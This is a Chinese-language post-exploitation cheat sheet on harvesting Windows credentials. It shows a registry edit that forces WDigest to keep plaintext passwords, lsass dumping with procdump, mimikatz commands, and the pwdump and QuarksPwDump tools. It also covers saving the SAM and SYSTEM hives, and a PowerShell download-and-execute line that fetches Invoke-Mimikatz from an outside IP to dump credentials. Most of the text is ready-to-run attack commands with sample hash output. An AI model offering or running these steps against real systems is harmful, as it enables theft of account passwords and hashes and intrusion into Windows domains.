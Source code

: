# 域内hash收集

## KB2871997补丁绕过

微软为了防止用户的明文密码在内存中泄露，发布了KB2871997补丁，关闭了Wdigest功能。Windows Server2012及以上版本默认关闭Wdigest，使攻击者无法从内存中获取明文密码。Windows Server2012以下版本，如果安装了KB2871997补丁，攻击者同样无法获取明文密码。

在命令行环境开启或关闭Wdigest Auth，有如下两种方法：

使用 red add命令

```java
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f           // 开启Wdigest Auth
 
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f           // 关闭Wdigest Auth
```

**攻击方法：**
需要将UseLogonCredential的值设为1，然后注销当前用户，用户再次登录后使用mimikatz即可导出明文口令。

```java
Nishang中的Invoke-MimikatzWDigestDowngrade脚本集成了这个功能，地址如下：

https://github.com/samratashok/nishang/blob/master/Gather/Invoke-MimikatzWDigestDowngrade.ps1
```

使用：

```java
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

注销重新登录

win10成功，win11无法成功

## ****PwDump7工具****

下载地址：[https://www.openwall.com/passwords/windows-pwdump](https://www.openwall.com/passwords/windows-pwdump)

使用：

```java
PS C:\Users\Administrator\Downloads\pwdump8-8.2\pwdump8> .\pwdump8.exe

PwDump v8.2 - dumps windows password hashes - by Fulvio Zanetti & Andrea Petralia @ http://www.blackMath.it

Administrator:500:AAD3B435B51404EEAAD3B435B51404EE:2D0DC68E26F39C60FB09E34B1BA80AAF
Guest:501:AAD3B435B51404EEAAD3B435B51404EE:31D6CFE0D16AE931B73C59D7E0C089C0
DefaultAccount:503:AAD3B435B51404EEAAD3B435B51404EE:31D6CFE0D16AE931B73C59D7E0C089C0
WDAGUtilityAccount:504:AAD3B435B51404EEAAD3B435B51404EE:760F77F3D47554F14E6BD277B9FC522B
```

## Mimikatz工具

下载地址：https://github.com/gentilkiwi/mimikatz

使用:

```java
privilege::debug      // 提升至debug权限
sekurlsa::logonpasswords       // 抓取密码
```

## Procdump工具

Procdump是微软官方发布的工具，所以杀软不会拦截，其可以用来将目标lsass文件导出

可以用来跟Mimikatz做配合

下载地址：[https://learn.microsoft.com/zh-cn/sysinternals/downloads/procdump](https://learn.microsoft.com/zh-cn/sysinternals/downloads/procdump)

使用：

上传导出其lsass.exe

```java
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

将在目标机器上导出的lsass.dmp下载到本地后，执行mimikatz导出lsass.dmp里面的密码和hash：

```java
sekurlsa::minidump .\lsass.dmp       // 将导出的lsass.dmp载入到mimikatz中
sekurlsa::logonpasswords full                 // 获取密码
```

## QuarksPwDump工具

Quarks PwDump 是一款开放源代码的Windows用户凭据提取工具，它可以抓取windows平台下多种类型的用户凭据，包括：本地帐户、域帐户、缓存的域帐户和Bitlocker。目前支持Windows XP/2003/Vista/7/8版本，相当稳定。

需要管理员权限

使用：

```java
QuarksPwDump.exe --dump-hash-local        // 导出本地hash值
QuarksPwDump.exe -dhl
```

```java
QuarksPwDump.exe -dhdc         // 导出内存中的域控哈希值
QuarksPwDump.exe --dump-hash-domain-cached
```

## Powershell脚本

使用powershell脚本加载mimikatz模块获取密码，该脚本位于powersploit后渗透框架中

下载地址：[https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

通过在目标机上远程下载执行该powershell脚本即可获取密码，需要管理员权限。

```java
powershell -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://39.xxx.xxx.210/powersploit/Exfiltration/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"
```

```java
powershell -exec bypass -c "& {Import-Module .\Invoke-Mimikatz.ps1;Invoke-Mimikatz -DumpCreds}"
```

## **通过SAM和System文件抓取密码和Hash**

```java
//目标机器执行
reg save hklm\sam sam.hive
reg save hklm\system system.hive
//本地mimikatz执行
lsadump::sam /sam:sam.hive /system:system.hive
```

**也可以直接使用mimikatz读取本地SAM文件，获得密码Hash：**

```java
privilege::debug
token::elevate
lsadump::sam
```